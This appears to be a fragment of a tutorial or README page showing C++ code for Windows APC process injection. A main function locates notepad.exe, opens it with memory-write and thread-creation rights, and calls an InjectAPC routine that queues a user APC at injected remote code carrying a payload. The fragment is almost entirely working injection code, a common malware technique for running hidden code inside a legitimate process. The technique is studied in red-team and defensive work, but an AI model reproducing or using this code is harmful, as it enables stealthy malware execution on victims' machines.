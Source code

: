 ```c++

	QueueUserAPC((PAPCFUNC)pRemoteCode, hThread, NULL);
	
	return 0;
}
```

#### Implementation

```c++
int main(void) {
    
	int pid = 0;
    HANDLE hProc = NULL;

	pid = FindTarget("notepad.exe");

	if (pid) {
		printf("Notepad.exe PID = %d\n", pid);

		// try to open target process
		hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
						FALSE, (DWORD) pid);

		if (hProc != NULL) {
			InjectAPC(pid, hProc, payload, payload_len);
			CloseHandle(hProc);
		}
	}
	return 0;
}
```
